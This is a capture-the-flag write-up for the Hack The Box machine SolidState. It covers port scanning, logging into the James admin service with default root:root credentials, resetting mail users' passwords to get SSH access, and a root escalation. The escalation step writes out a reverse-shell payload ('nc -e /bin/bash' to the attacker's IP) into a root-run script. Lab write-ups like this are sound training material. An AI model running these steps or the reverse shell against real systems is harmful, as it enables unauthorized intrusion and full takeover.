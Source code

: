 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: SolidState
tags: ["pop3", "james-admin", "pspy"]
---
```

**Start 08:06 16-03-2025**

---
```
Scope:
10.10.10.51
```
## Recon

### Nmap

```bash
sudo nmap solid -p- -sC -sV -sT -T5 -vvvv --min-rate 5000 --reason

PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
25/tcp   open  smtp        syn-ack JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello solid (10.10.16.3 [10.10.16.3])
80/tcp   open  http        syn-ack Apache httpd 2.4.25 ((Debian))
|_http-title: Home - Solid State Security
|_http-server-header: Apache/2.4.25 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp  open  pop3        syn-ack JAMES pop3d 2.3.2
119/tcp  open  nntp        syn-ack JAMES nntpd (posting ok)
4555/tcp open  james-admin syn-ack JAMES Remote Admin 2.3.2
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I also tried `161` UDP for good measure:

```bash
sudo nmap solid -p161 -sC -sV -sU -T5 -vvvv --min-rate 5000 --reason

Host is up, received echo-reply ttl 63 (0.086s latency).
Scanned at 2025-03-16 08:09:29 CET for 1s

PORT    STATE  SERVICE REASON              VERSION
161/udp closed snmp    port-unreach ttl 63
```

Right away I notice the **JAMES Remote Admin 2.3.2** service which I look up:

![](../../../assets/cd2ed9c23fe48b6f96e9d6ec9c89d344.png)

Good to know! Let's enumerate the rest first.

### 25/TCP - SMTP

![](../../../assets/c8c0656e20de7f729e77d645b0f24b7c.png)

Relay attack isn't possible.

![](../../../assets/21d2ed18c083c71211c097c709f2a193.png)

After some minutes of scanning I didn't find any names, moving on.

### 80/TCP - HTTP

![](../../../assets/5d7bd19fdc3feafb1cc75f415e177d34.png)

This was about the most useful I could find in a quick skim. Let's run `feroxbuster` and enumerate the web server.

![](../../../assets/4fc90b66649e056def000402140e42a8.png)

![](../../../assets/224c7ae6d4e6809ff9e740737fbf5e20.png)

Just some static assets, moving on.

### 110/TCP - POP3

We don't have any user info so we can't do anything here *yet*.

### 119/TCP - NNTP

Unknown what this port does atm, but I think it's linked to the next port.

### 4555/TCP - James-Admin

The PoC we previously found in [[#Nmap]] gave us some interesting info:

![](../../../assets/8e64067dc641f62ec75369613f1be240.png)

It appears the default creds are `root:root`, let's try it out:

![](../../../assets/338d251d75c2633e0376c0bf143246fd.png)

Well it appears someone didn't change the default creds, good for us.

![](../../../assets/090d0be2b814258262f700f3f80e906b.png)

I went ahead and added these to a user list, in case I want to spray later on:

![](../../../assets/120474d0457f79823187d1bbb42fafa2.png)

It seemed to be sort of a dead end though:

![](../../../assets/8245a6d2069885fff75f0e156223b5e1.png)

Let's instead download over the PoC and run that in order to get RCE.

### PoC

Unfortunately it wouldn't fire:

![](../../../assets/c96a8bb3476a26892baca8292b55cf1a.png)

However when we check the service via `nc` we now see the following:

![](../../../assets/f31bdd28c298540ecc6b378628c0efe6.png)

This means the exploit tried to add a new user.

:::note
I also tried the older version but that didnt work either for RCE.
:::

What we can do instead is just change passwords of the users since we're an admin account.

![](../../../assets/1936d218e25bb1fc1aacf7136c8bf63e.png)

![](../../../assets/0fef200fbfd78332c223e4f8c10edfca.png)

![](../../../assets/c96618fb3afc3d3b06da81ee76bd7bd5.png)

Awesome, we were able to find the creds.

```
mindy
P@55W0rd1!2@
```

## Foothold

Upon login we notice that the previously set up exploit now fires:

![](../../../assets/ac8dd241ecb3c975a249c201eee6c69f.png)

Not to worry, couple of `enter` further we are down to the normal SSH shell.


### user.txt

![](../../../assets/4b5a8c77d652a8f535f985c1b747f796.png)

Due to the presence of the `.rhosts` file it appears that the server is running `r-services`, however we can't view the file since it is owned by *root*.

## Enumeration

I tried to enumerate the system but it wouldn't give:

![](../../../assets/b2020d7500c48a5bfdd6d208c44b2558.png)

Let's try another approach, since we're in this jail I remembered that just now the script would indeed launch upon making the `ssh` connection. Meaning that the reverse shell HIGHLY LIKELY will execute if we retry it with a listener.

![](../../../assets/9b33dfae73f65f0a57eb5e8c0d42fcc6.png)

![](../../../assets/c5b7b0d477d08a93ccd6f86c553776e9.png)

![](../../../assets/ad0728186e7a32ffa3145a054293988c.png)

Just as imagined, we indeed receive a reverse shell, let's see if we can do some more commands with this one.

![](../../../assets/79281c4d0f78cc9ffa0da83fa153ab9c.png)

It appears that this shell is way more interactive, let's continue our approach.

I downloaded over `pspy32`:

![](../../../assets/1c757c927649a2f2f5da156687ed0cf0.png)

![](../../../assets/74a700bd0c0212995a6ee6e334fcbedd.png)

I let it run for a bit and checked back.

After a few minutes I noticed that *root* had a script running:

![](../../../assets/9327afd3ac79b854707d6efdff91429d.png)

![](../../../assets/681955e091c2e3a70023c1ec315612ff.png)

I bet we can change this up in order to get ourselves a root shell.

![](../../../assets/3aa901afdf46c7ead1b94aea2699f46d.png)

Sure can! Let's go ahead and change it up.

## Privilege Escalation

```bash
echo "
#!/usr/bin/env python
import os
import sys
os.system('/bin/nc -e /bin/bash 10.10.16.3 81')
" > /opt/tmp.py
```

After a few minutes of waiting:

![](../../../assets/1bf9960f9ea0b506bbb795ca83336357.png)

Hell yeah.

### root.txt

![](../../../assets/162609650dbffb2e581c33099260242a.png)


![](../../../assets/fefff3c4abb9e78fdeff03f92d34ca61.png)

---

**Finished 09:39 16-03-2025**

[^Links]: [[Hack The Box]] [[OSCP Prep]]

